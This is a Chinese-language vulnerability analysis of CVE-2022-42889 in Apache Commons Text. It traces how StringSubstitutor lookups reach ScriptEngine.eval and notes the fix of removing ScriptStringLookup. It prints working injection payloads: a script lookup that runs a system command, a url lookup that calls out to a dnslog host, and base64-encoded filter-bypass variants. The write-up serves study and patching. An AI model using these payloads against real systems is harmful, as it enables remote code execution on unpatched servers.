





# ApacheCommonsText CVE_2022_42889

#漏洞分析

### POC


```
StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
// 命令执行
        String poc = interpolator.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")}");

```


### 漏洞分析
使用目录执行的poc进行debug
`String poc = interpolator.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")}");`

跟进`org.apache.commons.text.StringSubstitutor#substitute(org.apache.commons.text.TextStringBuilder, int, int, java.util.List<java.lang.String>)`


在此处匹配字符串`${`开头并以`}`结尾


将字符串传入resolveVariable()解析
获取到`stringLookupMap`对象


可以传入的lookup类
其他可利用的lookup类



跟入`org.apache.commons.text.lookup.InterpolatorStringLookup#lookup`


截断：解析出key进入相应的类，调用对应的lookup方法
进入`ScriptStringLookup`类


声明一个`ScriptEngine`对象并赋值。
最终执行调用ScriptEngine的eval执行
- - - -
当使用base64Decoder时
会在`org.apache.commons.text.lookup.FunctionStringLookup#lookup`中解码，并返回解码后的字符串


回到`org.apache.commons.text.StringSubstitutor#substitute(org.apache.commons.text.TextStringBuilder, int, int, java.util.List<java.lang.String>)`判断varValue不为空再次调用replace()重复上述的操作


### 漏洞分析
利用
```
  String poc = interpolator.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")}");
// DNS查询
//        String poc = interpolator.replace("${url:utf-8:http://kk.yzuqx9.dnslog.cn}");
// 命令执行base64编码绕过
        String poc2 = interpolator.replace("${base64Decoder:JHt1cmw6dXRmLTg6aHR0cDovL2Jhc2U2NC55enVxeDkuZG5zbG9nLmNufQ==}");
//// 命令执行两次base64编码绕过
        String poc2 = interpolator.replace("${base64Decoder:JHtiYXNlNjREZWNvZGVyOkpIdHpZM0pwY0hRNmFuTTZhbUYyWVM1c1lXNW5MbEoxYm5ScGJXVXVaMlYwVW5WdWRHbHRaU2dwTG1WNFpXTW9JbTl3Wlc0Z0wxTjVjM1JsYlM5QmNIQnNhV05oZEdsdmJuTXZRMkZzWTNWc1lYUnZjaTVoY0hBaUtYMD19}");


```
可以使用base64对poc进行编码进行简单的绕过，会进行循环的解析，可以多次进行编码,解码操作
### 修复：


删除ScriptStringLookup